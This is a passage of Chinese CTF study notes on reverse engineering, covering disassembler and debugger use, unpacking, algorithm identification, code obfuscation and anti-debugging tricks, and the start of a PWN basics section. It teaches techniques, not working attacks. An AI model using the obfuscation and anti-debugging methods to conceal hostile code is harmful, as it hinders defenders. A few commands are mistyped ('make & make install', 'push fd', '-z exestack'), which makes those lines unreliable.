同样的源代码，GCC 编译器开启 O3 优化开关后编译生成可执行文件，经过复杂的编译器优化流程后，生成的伪代码可能发生相当大的变化。



在要修改类型的标识符上按 Y 键，即可调出对话框来修改类型。例如，修改 v6，将光标移动到 v6 上，然后按 Y 键，输入 `char[28]`，弹出是否覆盖后续变量的确认对话框，单击 “Yes” 按钮即可。

### 2.3 IDA 和 HexRays 进阶

#### 2.3.1 如何寻找 main 函数

在 Windows 和 Linux 下，很多可执行文件都不是直接从 main() 函数开始执行的，而是经过 CRT（C语言运行时）的初始化，再转到 main() 函数。

找 main() 函数的技巧如下：

- main() 函数经常在可执行文件的靠前位置，因为很多链接器是先处理对象文件后处理静态库。
- VC 的入口点（IDA 中的 start() 函数）会直接调用 main() 函数，在 start() 函数中被调用的函数有 3 个参数，并且返回值被传入 exit() 函数的，可以重点查看。
- GCC 将 main() 函数的地址传入  `__libc_start_main` 来调用 main() 函数，查看调用的参数即可找到 main() 函数的地址。

#### 2.3.2 处理 HexRays 失败情况

HexRays 经常会出现各种失败情况，尤其是对于没有符号、优化等级较高的程序。

绝大多数出错的原因是与这个函数相关的某些参数设置错误，如这个函数中调用其他函数的调用约定出现错误，导致参数解析失败或调用前后栈不平衡。

错误一：call analysis failed

- 原因：反编译器在寻找函数调用的参数时出现了错误。
- 修复：根据报错信息前面的地址，找到出错的位置（例如 0x271006 ），按 G 键跳转到目标地址，修复函数的原型声明即可。

错误二：sp-analysis failed

- 原因：某个函数调用的调用约定出错，或该函数的参数个数出错，导致 IDA 算错了栈指针的变化量。
- 修复：选择 “Options -> General” 菜单命令，在弹出的对话框中勾选 “Stack pointer”。此时，反编译窗口每行的地址旁边会多出一列，即 IDA 分析的函数执行到每个地址时栈的偏移量。找到有问题的地方进行修改。

## 第 3 章 动态调试和分析

### 3.1 OllyDBG 和 x64DBG 调试

OllyDBG 和 x64DBG 都是调试 Windows 平台可执行文件的调试器。x64DBG 支持 32 位 和 64 位程序的调试，并且在不断开发、添加新的功能。OllyDBG 仅支持 32 位的程序，且已经停止更新。

#### 3.1.1 打开文件



打开文件后，各窗口中会有内容出现。x64DBG 与 OD 的布局相同，左上区域为反汇编结果的显示区域，左下区域为浏览程序内存数据的区域，右下区域为栈数据的显示区域，右上区域为寄存器的显示区域。

#### 3.1.2 控制程序运行

按 Ctrl+G 组合键，可以跳转到目标地址；在反汇编窗口中，按 F2 键为切换当前地址的断点状态，按 F8 键为单步步过，按 F7 键为单步步入，按 F4 键为运行到光标处位置，按 F9 键为运行。

常见的断点位置包括程序内的某个地址、程序调用的某个 API。此外，可以让程序在操作（读取/写入/执行）特定的某一小段内存时终端，其原理为使用 CPU 内建的硬件断点机制或使用 Windows 提供的异常处理机制的内存断点。

x64DBG 在内存窗口/栈窗口中选定目标地址，单击右键，选择 “断点 -> 硬件断点” 或 “读取/写入 -> 选择长度”，可以设置硬件读取和硬件写入断点；在反汇编窗口中，右击目标地址，选择 “断点 -> 设置硬件断点（执行）”，设置硬件执行断点。

#### 3.1.3 动态脱壳

“壳” 是一种特殊的程序，对另一个程序进行变换后，利用变换的结果重新生成可执行文件。在运行时，它全部或部分还原存储在可执行文件中的变换结果，然后恢复原程序的执行。

压缩壳是为了减小程序体积，加密壳是为了加大破解者的逆向难度。通常，加密壳需要配合压缩壳，加密壳会导致程序体积变大。

按照变换操作的不同，可以进行如下分类：

- 注重代码压缩：生成更小的可执行文件，如 UPX、ASPack 等。
- 注重代码保护：阻碍逆向者进行分析，如 VMP、ASProtect 等。

“脱壳” 即将 “壳” 去除，还原最初程序。加密壳在 CTF 中较少。

UPX 壳使用最广泛，脱壳 UPX 的两种方法如下：

- 静态方法：UPX 本身即提供脱壳器，使用命令行参数 -d 即可，但是有时会失败，需要切换使用正确的 UPX 版本。Windows 下内置多个 UPX 版本的第三方图形化界面 UPXShell 工具，可以方便地切换版本。
- 动态方法：虽然 UPX 本身可以脱壳，但是 UPX 是基于加壳后可执行文件内存储的标识来查找并操作的，由于 UPX 是开源的，软件保护者可以任意修改这些标识，从而导致官方标准版本的 UPX 脱壳失败。这时通常采用动态脱壳。

#### 3.1.4 查壳/脱壳工具

查壳工具：

- ExeinfoPE：https://github.com/ExeinfoASL/ASL/raw/master/exeinfope.zip
- PEiD：https://www.aldeid.com/wiki/PEiD

脱壳工具：

- UPX：https://github.com/upx/upx

### 3.2 GDB 调试

#### 3.2.1 GDB 环境配置

Linux 系统中通常使用 GDB 进行调试。GDB 插件有：Gef、peda、Pwndbg 等。

#### 3.2.2 Pwndbg安装

CTF 中不同的题目有不同的环境要求，可能涉及 Ubuntu 16、Ubuntu 18、Ubuntu20。

原版的 Ubuntu 16 默认安装的是 gdb7、python3.5，这两个环境在目前的 Pwndbg 中均不适用（2023.04，“Pwndbg is supported on Ubuntu 18.04, 20.04, and 22.04 with GDB 8.1 and later”）。解决方案：

- 重新编译 Python，此处 Python 为 Python 版本为 3.8.15。
- 使用 Python 3.8.15 编译 GDB，此处 GDB 版本为 11.2。
- 下载 Pwndbg，不需要运行 setup.sh，直接安装依赖即可。

下载链接：

- Python：https://mirrors.cloud.tencent.com/macports/distfiles/python38/Python-3.8.15.tar.xz
- GDB：https://mirrors.aliyun.com/gnu/gdb/gdb-11.2.tar.xz

- Pwndbg：https://github.com/pwndbg/pwndbg 

相关安装命令：

```
# 解压压缩包
apt-get update
apt-get install build-essential	 texinfo git vim
xz -dk gdb-11.2.tar.xz
xz -dk Python-3.8.15.tar.xz
tar -xvf Python-3.8.15.tar
tar -xvf gdb-11.2.tar.xz

# 升级 Python
sudo apt install -y wget build-essential libreadline-dev libncursesw5-dev libssl-dev libsqlite3-dev tk-dev libgdbm-dev libc6-dev libbz2-dev libffi-dev zlib1g-dev
cd Python-3.8.15
./configure --prefix=/usr/local/python3
make & make install
rm /usr/bin/python3
rm /usr/bin/python
rm /usr/bin/pip3
rm /usr/bin/pip
ln -s /usr/local/python3/bin/python3.8 /usr/bin/python3
ln -s /usr/local/python3/bin/python3.8 /usr/bin/python 
ln -s /usr/local/python3/bin/pip3.8 /usr/bin/pip3   
ln -s /usr/local/python3/bin/pip3.8 /usr/bin/pip 

# 编译 GDB
apt-get install libgmp-dev libncurses5-dev
cd gdb-11.2
mkdir build
cd build
../configure --with-python=/usr/bin/python3 
make && make install

# 安装 Pwndbg
git clone https://github.com/pwndbg/pwndbg.git
pip install -r requirements.txt
echo "source /<your-path>/pwndbg/gdbinit.py" > ~/.gdbinit

# 编码问题解决方法
vim  /etc/profile
	export LANG=C.UTF-8 
source /etc/profile
```

#### 3.2.3 打开文件

GDB 打开文件的方式与图形化工具不同，完全由命令控制，而不是快捷键。

方式 1：在 GDB 的命令行后直接接可执行文件，例如 “gdb ./crackme”（适用于不需参数的程序）。

方式 2：使用 GDB 的 --args 参数执行，例如 “gdb --args ./ping -c 10 127.0.0.1”。

方式 3：打开 GDB，使用file命令指定可执行文件。

#### 3.2.4 调试程序

GDB 的调试方式和图形化工具不同，完全由命令控制，而不是快捷键。

控制程序执行：

- r（run）：启动程序。
- c（continue）：让暂停的程序继续执行。
- si（step instruction）：汇编指令层面上的单步步入。
- ni（next instruction）：汇编层面上的单步步过。
- finish：执行到当前函数返回。

查看内存、表达式等：

- x/dddFFF：ddd 代表长度， FFF 代表格式，例如 `x/10gx`，具体格式列表见 https://visualgdb.com/gdbreference/commands/x
- p（print）：输出一个表达式的值，例如 `p 1+1`，p 命令也可以添加指定格式，例如 `p/x 1112222`。

断点相关：

- b（break）：b *location，location 可以为十六进制数、名称等，例如 `b *0x8005a0`、`b *main`。其中，`*` 是指中断在指定的地址，而不是对应的源代码行。
- info b 或 info bl：列出所有断点，每个断点会有自己的序号。
- del（delete）：删除指定序号的断点，例如 `del 1`。
- clear：删除指定位置的断点，如 `clear *main`。

修改数据：

- 修改寄存器：`set $rax = 0x100000`。
- 修改内存：set {要赋值的类型}地址 = 值，例如 `set {int}0x405000 = 0x12345`。

GDB 不会在入口点处暂停程序，所以需要在程序执行前设置好断点。GDB 不会自动保存断点数据，需要用户每次重新设置断点。

在 GDB 的命令行中，五输入直接回车代表重复上一条命令。

#### 3.2.5 IDA 整合

Pwndbg 提供了 IDA 的整合脚本，只需要在 IDA 中运行 Pwndbg 目录的 ida_script.py，然后 IDA 会监听 http://127.0.0.1:31337，本机 Pwndbg 链接到 IDA 上，并使用 IDA 的各种功能。

可以修改脚本中的 127.0.0.1 为 0.0.0.0 来允许虚拟机连接。在 GDB 中执行 `config ida-rpc-host 主机 IP`，重启 GDB 即可生效。

### 3.3 IDA 调试器

#### 3.3.1 选择 IDA 调试后端



Windows 版本 IDA 可以直接调试 Windows 下 32 bit 和 64 bit 的程序。Linux 版本则需要远程调试器。

#### 3.3.2 本地调试启动方法

载入 IDA ，本地调试启动方法：

- 选择后端。选择调试器后端为 Local Windows debugger，即可使用 IDA 内置的调试器。
- 开始调试。按 F9 快捷键启动程序，确认对话框中点击 Yes，即可开始调试。
- 被调试文件默认的路径为输入文件的路径，若目标文件不存在，或因其他原因加载失败，IDA 均会弹出警告对话框，确认后进入 Debug application setup 设置的对话框。如有需要，也可以通过 Debugger -> Process options 菜单进入。

IDA 不会在入口点处设置断点，需要提前设置好。

#### 3.3.3 断点设置

IDA 的断点可以通过快捷键 F2 设置，也可以在图形化界面中单击左侧小蓝点进行设置。在切换为断点后，对应行的底色将会变成红色以突出显示。



#### 3.3.4 查看变量

在中断后，选择 Debugger -> Debugger windows -> Locals 菜单命令，打开查看局部变量窗口。

设置断点，单步执行，Locals 窗口中红色的部分代表这些变量的值被修改过。


以上程序中，v5 是一个字符串，存放着正确输入。那么，如何获取 v5 的内容，找到内存中的 flag 呢？

方式 1：

- 在 Locals 窗口的 Location 栏中可以看到 v5 的位置为 RDI。



- 在寄存器窗口可以看到 RDI 的值，单击其值右侧的按钮，即可在反汇编窗口中跳转到对应的位置。



- 按 a 键将其转为字符串显示。

方式 2：

- 在伪代码窗口中按 Y 键，修改 v5 的类型，从 `_BYTE*` 修改为 `char *`，此时 HexRays 会认为 v5 是一个字符串，从而将其在 Locals 中显示出来。在 Locals 窗口中右键单击 Refresh 刷新。



#### 3.3.5 远程调试配置方法

远程调试与本地调试相似，只不过要调试的可执行文件运行在远程计算机上，需要在远程计算机上运行 IDA 的远程调试服务器。IDA 的远程调试服务器位于 IDA 安装目录的 dbgsrv 目录下。



IDA 提供了从主流桌面系统 Windows、Linux、Mac 到移动端 Android 系统的调试服务器，用户根据系统和可执行文件架构选择对应的服务器。

以 linux_server64 为例，在 Linux 虚拟机中运行调试服务器，不带参数运行时，调试服务器将自动监听 0.0.0.0:23946。

在 IDA 中选择调试后端为 Remote Linux debugger，然后设置 Process options。所有路径必须是远程主机上的路径，此处将被调试的可执行文件放在 /tmp 目录下。设置好参数，单击 OK 按钮保存。



IDA 设置断点进行调试。注意，通过远程调试运行的程序与服务器程序共用一个控制台，直接在服务器端输入即可与被调试程序交互。




## 第 4 章 常见算法识别

### 4.1 特征值识别

很多常见算法，如 AES、DES 等，在运算过程中会使用一些常量，为了提高运算效率，这些常量往往被硬编码在程序中。通过识别这些特征常量，可以对算法进行一个大致的快速判断。

常见算法需要使用的常量：

| 算法     | 特征值（如无特殊说明为十六进制）                             | 备注              |
| -------- | ------------------------------------------------------------ | ----------------- |
| TEA 系列 | 9e3779b9                                                     | Delta 值          |
| AES      | 63 7c 77 7b f2 6b 6f c5 ...                                  | S 盒              |
| AES      | 52 09 6a d5 30 36 a5 38 ...                                  | 逆 S 盒           |
| DES      | 3a 32 2a 22 1a 12 0a 02 ...                                  | 置换表            |
| DES      | 39 31 29 21 19 11 09 01 ...                                  | 密钥变换数组 PC-1 |
| DES      | 0e 11 0b 18 01 05 03 1c ...                                  | 密钥变换数组 PC-2 |
| DES      | 0e 04 0d 01 02 0f 0b 08 ...                                  | S 函数表格 1      |
| BlowFish | 243f6a88 85a308d3 13198a2e 03707344                          | P 数组            |
| MD5      | 67452301 efcdab89 98badcfe 10325476                          | 寄存器初始值      |
| MD5      | d76aa478 e8c7b756 242070db c1bdceee ...                      | Ti 数组常量       |
| SHA1     | 67452301 efcdab89 98badcfe 10325476 c3d2e1f0                 | 寄存器初始值      |
| CRC32    | 00000000 77073096 ee0e612c 990951ba                          | CRC 表            |
| Base64   | 字符串“ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/” | 字符集            |

相关的常量查找插件有：IDA 的 FindCrypt、PEiD 的 KANAL 等。

对这种分析方法的对抗是非常简单的，即故意对这些常量进行修改。因此，特征值识别只能作为一种快速判断的手段，做出判断后，还需要进行算法复现或动态调试，来验证算法的判断是否正确。

### 4.2 特征运算识别

当特征值不足以识别出算法时，可以通过分析程序是否使用了某些特征运算，来推测程序是否使用了某些算法。

CTF 逆向工程题目中常见算法的特征运算：

| 算法     | 特征运算（伪代码）                                           | 说明                                       |
| -------- | ------------------------------------------------------------ | ------------------------------------------ |
| RC4      | i = (i + 1) % 256;<br />j = (j + s[i]) % 256;<br />swap(s[i],s[j]);<br />t = (s[i] + s[j]) % 256; | 流密钥生成                                 |
| RC4      | j = (j + s[i] + k[i]) % 256;<br />swap(s[i],s[j]);<br />循环256次 | S 盒变换                                   |
| Base64   | b1 = c1 >>2;<br />b2 = ((c1 & 0x3) << 4) \| (c2 >> 4);<br />b3 = ((c2 & 0xF) << 2) \| (c3 >> 6);<br />b4 = c3 & 0x3F; | 8 位变 6 位                                |
| TEA 系列 | ((x << 4) + kx) ^ (y + sum) ^ ((y >> 5) + ky)                | 轮函数                                     |
| MD5      | ( X & Y) \| ((~X) & Z)<br />( X & Z) \| ( Y & (~Z))<br />X ^ Y ^ Z<br />Y ^ (X \| (~Z)) | F 函数<br />G 函数<br />H 函数<br />I 函数 |
| AES      | x[j] = s\[i][\(j+1) % 4]<br />循环 4 次<br />s\[i]\[j] = x\[j]<br />循环 4 次<br />整体循环 4 次 | 行移位                                     |
| DES      | L = R<br />R = F(R,K) ^ L                                    | Feistel 结构                               |

特征运算识别也是一种快速判断的方法，需要经过动态调试或算法复现等手段确认后才能得出结论。

### 4.3 第三方库识别

为了提高编程效率，对于一些常用的算法，很多人会选择使用现成的库，如系统库或第三方库。

对于动态链接的库，函数名的符号信息可以被轻易地识别；对于静态链接的第三方库，识别这些信息则比较困难。

#### 4.3.1 字符串识别

很多第三方库会将版权信息和该库使用的其他字符串（如报错信息等）以字符串的形式写入库中。在静态编译时，这些字符串会被一并放入二进制文件。通过寻找这些字符串，可以快速判断使用了哪些第三方库，以便进一步分析。

#### 4.3.2 函数签名识别

有时确定了程序所使用的库后，还需要进一步识别具体的函数。

每个二进制函数都可以有自己的签名，对于同样由二进制机器代码构成的第三方库函数来说，IDA 也可以通过对应签名库快速匹配函数名、参数等信息。IDA 中自带了很多除 C 语言运行库以外的常见库的签名文件，如 Visual C++ MFC 库等。

可以在 IDA 文件菜单中选择 “Load File -> FLIRT Signature file”。

如果 IDA 没有预置需要识别的库函数签名，可以在以下IDA FLIRT 签名库进行寻找：

- sig-database：https://github.com/push0ebp/sig-database
- FLIRTDB： https://github.com/Maktm/FLIRTDB

也可以利用 IDA SDK 中提供的 FLAIR 工具，根据已有的 `.a`、`.lib` 等静态库文件自己创建一份签名，放入 sig 文件夹，然后在 IDA 中加载。

#### 4.3.3 二进制比对识别

由于编译环境等各种情况的差异，签名有时无法完全匹配库函数，即使编译环境有一定区别，使用同一个库编译的二进制文件中的库函数也会存在许多相同之处。如果能够确定程序编写者使用了某个已知库，并且我们能够获得一份含有符号且同样使用了该库的静态编译二进制文件，则可以利用二进制比对的方法来具体确定每个库函数。

二进制比对的常用工具：

- BinDiff：https://www.zynamics.com/software.html

## 第 5 章 二进制代码保护和混淆

二进制代码的保护手段种类繁多：

- 对汇编指令进行一定程度的混淆变换，可以干扰静态分析中的反汇编过程。
- 在程序中穿插各种反调试技术，能有效地抵御动态分析。
- 对程序中的关键算法进行虚拟化保护。

### 5.1 抵御静态分析

反汇编结果正确与否将直接影响到例如 HexRays Decompiler 等工具反编译结果的正确性。因此，许多开发者会选择对汇编指令本身做一些处理，使得反编译器无法生成逻辑清晰的伪代码。

#### 5.1.1 花指令

干扰反汇编器最简单的方法就是在代码中增加花指令。

花指令，是指在程序中完全冗余，不影响程序功能却会对逆向工程产生干扰的指令。

花指令没有固定的形式，泛指用于干扰逆向工作的无用指令。

以下汇编代码为常见的函数头：

```
push ebp
mov ebp, esp
sub esp, 0x100
```

反汇编器经常以此作为判断函数起始地址的一句，也以此进行栈指针分配的计算。如果在其中加入一些相互抵消的操作，例如：

```
push ebp
push fd
add esp, 0xd
nop
sub esp, 0xd
pop fd
mov ebp, esp
sub esp, 0x100
```

那么，改代码的复杂度明显提升，但实际进行的操作效果并没有变化。注意，pushfd 和 popfd 等花指令会让一些解析栈指针的逆向工具产生错误。

#### 5.1.2 插入脏字节

在正常的指令中插入一个特定的字节，并在该字节前加入向该字节后的跳转语句，以保证实际执行的指令效果不变。这一特定的字节被称为脏字节，要求是一条较长指令的首字节（如 0xE8 为 call 指令的首字节）。

对于 OllyDBG 和 WinDBG 等线性扫描反汇编工具，可以使用一条无条件跳转指令实现脏字节的插入。示例同上，可以在第一条和第二条指令之间插入一个跳转指令，并且加入 0xE8 字节，例如：

```
	push ebp
	jmp addr1
	db 0xE8
addr1：
	mov ebp, esp
	sub esp, 0x100
```

根据线性扫描反汇编算法，当反汇编器解析完 jmp addr1 指令后，将紧接着从 0xE8 进行解析，而 0xE8 为 call 指令的首字节，会导致反编译器认为从 0xE8 开始的 5 字节为一条 call 指令，从而导致后续指令全部被错误解析。

对于 IDA 等递归下降反汇编工具，遇到无条件跳转时，会转向跳转的目标地址递归地继续解析指令，导致插入的 0xE8 字节被直接跳过。因此，可以将以上代码修改为：

```
	push ebp
	jz addr1
	jnz addr1
	db 0xE8
addr1：
	mov ebp, esp
	sub esp, 0x100
```

即将一条无条件跳转语句改为两条成功条件相反的条件跳转语句。

由于递归下降反汇编算法不能获取到程序运行中的上下文信息，遇到条件跳转语句时，它会递归地将跳转的分支与不跳转的分支都进行反汇编。在反汇编完 jnz 语句后，它不跳转的分支就是下一地址，从而使 0xE8 开头的 “指令” 被解析。

在实际操作过程中，为了达到更好的效果，往往会将这些跳转目标代码的顺序打乱，即 “乱序”，从而达到类似控制流混淆的效果，例如：

```
	push ebp
	jz addr2
	jnz addr2
	db 0xE8
addr3:
	sub esp, 0x100
	...
addr2:
	mov ebp, esp
	jmp addr3
```

#### 5.1.3 指令替换

指令替换又称为“变形”。在汇编语言中，大量的指令都可以设法使用其他指令来实现相同或类似的功能。例如，函数调用指令 call 可以使用其他指令替换，如以下指令：

```
call addr
```

可以替换为如下代码段：

```
push addr
ret
```

而函数返回指令 ret，可也可以替换为以下代码段：

```
push ecx
mov ecx, [esp+4]
add esp, 8
jmp ecx
```

注意，该替换破坏了 ecx 寄存器，因此需要保证此时 ecx 没有被程序使用。

#### 5.1.4 代码自修改

代码自修改（Self-Modifying Code，SMC）就是程序在执行过程中，将自己的可执行代码进行修改并执行的手段，能让真正执行的代码在静态分析中不出现。解决方式：

- 静态分析 SMC 代码的自修改流程，自行实现该 SMC 过程，并将代码 patch 为真正执行的代码，即可继续进行静态分析。
- 动态分析在代码已被解密完毕的位置设置断点，然后使用调试器跟踪真正执行的代码，或者 dump 已经解密完毕的代码，交给 IDA 进行静态分析。

### 5.2 加密

加密壳程序对二进制程序的加密大体上可以分为：数据加密、代码加密、算法加密。

- 数据加密：对程序中已有的数据进行加密的过程，一般会在合适的时机对数据进行解密（如在所有引用该数据的地方放置数据解密逻辑）。
- 代码加密：对程序代码段中的指令进行加密变换的过程，一般会等到真正需要执行目标代码时才对其进行解密（运用到 SMC 技术）。
- 算法加密：在 CTF 中更常见，偏重于算法的混淆、模糊与隐藏，其中最常见的方式是虚拟机保护。

虚拟机（Virtual Machine，VM）保护的大范围使用最早出现在加密壳软件中，是一些加密壳的最强保护手段，其中最具代表性的是 VMProtect。VMProtect 除了提供常规的数据加密、代码加密和其他反调试等功能，还能在汇编指令层面对程序逻辑进行虚拟化，将开发者指定的代码段中所有的汇编指令转变为自行编写的一套指令集中的指令，并在实际执行时由自行编写的虚拟机执行器进行模拟执行。

### 5.3 反调试

反调试（Anti-debugging）是指在程序代码中运用若干种反调试技术，干扰对某个进程进行动态调试、逆向分析的手段。

#### 5.3.1 Windows API

Windows 操作系统提供了大量可供检测进程状态的 API，通过调用这些 API，程序可以检测当前是否正在被调试。

- IsDebuggerPresent()
- CheckRemoteDebuggerPresent()
- NtQueryInformationProcess()

反反调试工具：

- ScyllaHide：https://github.com/x64dbg/ScyllaHide

#### 5.3.2 断点检测

软件断点往往通过修改内存而实现，对内存是否被修改进行检测，可以探测该类断点的存在。

对于 x86 架构，硬件断点是通过设置调试寄存器（Debug Registers，包括 DR0\~DR7）来实现的。当使用硬件断点时，需要将断点的地址设置到 DR0\~DR3 中（因此最多支持 4 个硬件断点），并将一些控制属性设置到 DR7 中，基于这个原理可以编写检测硬件端点的代码。

#### 5.3.3 时间间隔检测

在单步跟踪一段指令时，指令运行所耗费的事件与其未被跟踪时相差巨大。基于这个原理可以编写除反调试代码，但容易被绕过。

#### 5.3.4 基于异常的反调试

在 Windows 系统中，如果某进程正在被另一进程调试，则其运行过程中产生的异常将首先由其调试器进行处理，否则会直接由进程中注册的 SEH（Structured Exception Handling）处理函数进行处理。

因此，可以编写代码主动抛出异常（例如，执行一条非法指令或者访问一段非法内存），在我们注册的 SEH 处理函数中对该异常进行接管，接着处理该异常，也可以针对性地进行一些反调试操作。

#### 5.3.5 TLS 反调试

TLS（Thread Local Storage，线程本地存储），即线程本地存储，是为解决一个进程中多个线程同时访问全局变量而提供的机制。

可以在 TLS 回调函数中编写调试器检测代码，实现反调试。

#### 5.3.6 特定调试器检测

直接对特定调试器进行检测，例如，x64DBG 可以检测当前系统运行程序的可见窗口中是否包含 “x64dbg” 的窗口，或进程列表中是否存在名为 “x64dbg.exe” 的进程等，但容易被绕过。

#### 5.3.7 架构切换

64 位 Windows 操作系统可以运行 32 位的应用程序。

## 第 6 章 高级语言逆向

Rust、Go 等是无虚拟机的高级语言，Python、C# 等是基于虚拟机的高级语言。

### 6.1 Rust 和 Go

IDA 优化相关工具（Rust）：

- https://github.com/cha5126568/rust-reversing-helper

IDA 优化相关工具（Go）：

- https://github.com/strazzere/golang_loader_assist
- https://github.com/sibears/IDAGolangHelper

### 6.2 C# 和 Python

C#、Python 是基于虚拟机的高级语言，其可执行程序或文件中包含的字节码，并不是传统汇编指令的机器码，而是其本身虚拟机指令的字节码，所以这类程序不宜使用 IDA 分析。

C# 的逆向分析工具有：.NET Reflector、ILSpy/dnSpy、Telerik JustDecompile、JetBrains dotPeek 等，分析 C# 程序，只需用这些工具打开即可得到源码。对于有壳的程序，需要去壳后分析，去壳工具可以用 de4dot。

Python 的逆向是对 PYC 文件的逆向分析。对于没有混淆过的 PYC 文件，可以使用 Python 的 uncompyle2 将其还原为 PY 文件；对于混淆过的 PYC 文件，若无法去混淆，则只能分析其虚拟机指令。

### 6.3 C++ MFC

MFC 是微软开发的一套 C++ 类库，用来支撑 Windows 下部分 GUI 程序的运行。MFC 包装了 Windows GUI 的消息循环、消息处理流程，将消息用 C++ 的类封装，然后分发到绑定的对象上，方便开发人员快速编写程序。MFC 的多层封装，导致大量的消息处理函数没有直接的代码引用，而是被间接调用。

只要找到 MessageMap，就可以找到所有的消息处理函数，待找到消息处理函数后，即可使用一般的逆向分析技巧进行分析。可以使用以下方法：

- 利用 CWnd 的类和实例方法，动态获取目标窗口的 MessageMap 信息（工具：xspy）。
- 在 IDA 中利用引用关系寻找，在 IDA 中寻找 CDialog 字符串，然后寻找交叉引用，在其周围找到 AFX_MSGMAP。

## 第 7 章 现代逆向工程技巧

### 7.1 符号执行

符号执行（Symbolic Execution）是一种程序分析技术，可以通过分析程序来得到让特定代码区域执行的输入。使用符号执行分析一个程序时，该程序会使用符号值作为输入，而非一般执行程序时使用的具体值。在达到目标代码时，分析器可以得到相应的路径约束，然后通过约束求解器来得到可以出发目标代码的具体值。

在实际环境下，符号执行被广泛应用到自动化漏洞挖掘测试过程中。

在 CTF 中，符号执行适用于解决各种逆向题，只需让符号执行引擎自动分析，找到让程序执行到输出 flag 正确的位置，然后求解出所需的输入即可。

符号执行已经有很多现成的工具可以使用：

| 工具      | 适用范围                                            |
| --------- | --------------------------------------------------- |
| angr      | x86，x86-64，ARM，AARCH64，MIPS，MIPS64，PPC，PPC64 |
| S2E       | x86，x86-64，ARM 架构下用户态与内核态程序           |
| BE-PUM    | x86                                                 |
| Manticore | x86，x86-64，ARMv7，EVM                             |

最新版的 angr 主要分为 5 个模块：

- 主分析器 angr
- 约束求解器 claripy
- 二进制文件加载器 cle
- 汇编翻译器 pyvex（用于将二进制代码翻译为统一的中间语言）
- 架构信息库 archinfo（存放很多架构相关的信息，用于针对性地处理不同的架构）

### 7.2 二进制插桩

插桩（Instrumentation）是在保证程序原有逻辑完整性的基础上，在程序中插入探针，通过探针的执行来收集程序运行时信息的技术。插桩用于以下两方面：

- 程序分析，性能分析，错误检测、捕获和重放。
- 程序行为模拟，改变程序的行为，模拟不支持的指令。

插桩会向程序中插入额外的代码。根据实现插桩的方式，可分为：源码插桩（Source Code Instrumentation）、二进制插桩（Binary Instrumentation）。

- 源码插桩：需要程序的源代码，插桩框架会自动在源码中插入探针，记录程序的运行时信息。在对源码完成插桩后，需要重新编译链接，以生成插桩后的程序。
- 二进制插桩：不需要程序的源代码，可以对已经编译好的二进制程序进行插桩。

二进制插桩分为以下两种：

- 静态二进制插桩：在运行前插入额外的指令和数据并生成修改后的二进制文件。
- 动态二进制插桩：在程序运行时插入额外的代码和数据，不会修改当前的可执行文件。

### 7.3 Pin

Pin 是 Intel 开发的二进制动态插桩引擎，支持 32/64 位的 Windows、Linux、Mac、Android，提供了丰富的 C/C++ API 来开发自己的插桩工具 pintools。

# PWN | You-just-got-pwned!

## 第 1 章 PWN 基础

### 1.1 什么是 PWN

在 CTF 中，PWN 主要通过利用程序中的漏洞造成内存破坏以获取远程计算机的 shell，从而获得 flag。

PWN 题目比较常见的形式是把一个用 C/C++ 语言编写的可执行程序运行在目标服务器上，参赛者通过网络与服务器进行数据交互。题目一般存在漏洞，攻击者可以构造恶意数据发送给远程服务器的程序，导致远程服务器执行攻击代码，从而控制远程服务器。

### 1.2 如何学习 PWN

二进制安全指代逆向工程和PWN。二进制安全的核心知识主要包括四大类：

- 编程语言和编译原理
- 汇编语言
- 操作系统和计算机体系结构
- 数据结构和算法

### 1.3 Linux 基础知识

#### 1.3.1 Linux 中的系统与函数调用

32 位 Linux 程序与 32 位 Windows 程序一样，在运行过程中也遵循栈平衡的原则。ESP 和 EBP 作为栈指针和帧指针寄存器，EAX 作为返回值。程序在函数初始化阶段赋值 EBP 为栈帧中间的某个位置，这样可以用  EBP 引用所有的局部变量。由于上一层的父函数也要使用  EBP ，因此要在函数开始时先保存 EBP ，再赋值 EBP 为自己的栈帧的值，例如：

```
push ebp
mov ebp, esp
```

其参数传递方式遵循传统的 cdecl 调用约定，即函数参数从右到左依次入栈，函数参数由调用者负责清除。

64 位 Linux 程序使用 fast call 的调用方式进行传参。同样源码编译的 64 位版本与 32 位的主要区别是，函数前 6 个参数会依次使用 RDI、RSI、RDX、RCX、R8、R9 寄存器进行传递，如果还有多余的参数，那么与 32 位的一样使用栈进行传递。

32 位 Linux 操作系统中，调用系统调用需要执行 int 0x80 软中断指令。此时，eax 中保存系统调用号，系统调用的参数依次保存在 EBX、ECX、EDX、ESI、EDI、EBP 寄存器中。调用的返回结果保存在 EAX 中。系统调用可以看作一种特殊的函数调用，只是使用 int 0x80 指令代替 call 指令。call 指令中的函数地址变成了存放在 EAX 中的系统调用号，而参数改成使用寄存器进行传递。

64 位 Linux 操作系统调用指令变成了 syscall，传递参数的寄存器变成了 RDI、RSI、RDX、R10、R8、R9，并且系统效用对应的系统调用号发生了变化。

#### 1.3.2 ELF 文件结构

Linux 下可执行文件格式为 ELF（Executable and Linkable Format），类似 Windows 的 PE 格式。需要注意三个概念：ELF 头、Section（节）、Segment（段）。

ELF 头必须在文件开头，标识这是个 ELF 文件及其基本信息。ELF 头包括 ELF 的 magic code、程序运行的计算机架构、程序入口等内容，可以通过 `readelf-h` 命令读取其内容，一般用于寻找一些程序的入口。

ELF 文件由多个节（Section）组成，其中存放各种数据。描述节的各种信息的数据统一存放在节头表中。ELF 中的节用来存放各种各样不同的数据，主要包括：

- .text 节：存放一个程序的运行所需的所有代码。
- .rdata 节：存放程序使用到的不可修改的静态数据，如字符串等。
- .data 节：存放程序可修改的数据，如 C 语言中已经初始化的全局变量等。
- .bss 节：存放程序的可修改数据，与 .data 不同的是，这些数据没有被初始化，所以没有占用 ELF 空间。虽然在节头表中存在 .bss 节，但是文件中并没有对应的数据。在程序开始执行后，系统才会申请一块空内存来作为实际的 .bss 节。
- .plt 节和 .got 节：程序调用动态链接库（SO 文件）中函数时，需要这两个节配合，以获取被调用函数的地址。

#### 1.3.3 Linux 下的漏洞缓解措施

##### NX

NX 保护在 Windows 中也被称为 DEP，通过现代操作系统的内存保护单元（Memory Protect Unit，MPU）机制对程序内存按页的粒度进行权限设置，其基本规则为可写权限与可执行权限互斥。在开启 NX 保护的程序中不能直接使用 shellcode 执行任意代码。所有可以被修改写入 shellcode 的内存都不可执行，所有可以被执行的代码数据都是不可被修改的。

GCC 默认开启 NX 保护，关闭方法是在编译时加入 `-z exestack` 参数。

##### Stack Canary

